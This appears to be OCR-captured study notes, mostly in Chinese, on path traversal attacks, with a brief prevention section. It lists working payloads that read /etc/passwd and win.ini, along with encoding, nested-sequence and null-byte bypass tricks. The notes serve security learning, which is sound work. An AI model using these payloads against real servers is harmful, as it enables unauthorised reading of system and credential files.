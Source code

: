## Path traversal (../)
- 能夠讀取運行應用程式的伺服器上的任意檔案
- 能夠寫入伺服器上的任意文件
- 修改應用程式資料或行為

**Example : **
- <"img src="/loadImage?filename=218.png""> --> call /var/www/images/218.png
- https://insecure-website.com/loadImage?filename=../../../etc/passwd
- ../和都是..\有效的目錄遍歷序列
-  Windows 伺服器 : https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini

## Bypass : 
- 絕對路徑 : filename=/etc/passwd
- Ｎested traversal : "....//" or "....\/"
    - (....//....//....//etc/passwd)
- URL 編碼 :%2e%2e%2f, %252e%252e%252f , ..%c0%af or ..%ef%bc%8f
    - Burp Intruder: Fuzzing - path traversal
- 基底資料夾 : filename=/var/www/images/../../../etc/passwd
- 副檔名結尾 : filename=../../../etc/passwd%00.png

## prevent a path traversal attack
- 白名單 : 處理使用者輸入之前，請先驗證其有效性
- 僅包含字母數字字元
- 使用平台檔案系統 API 來規範化該路徑
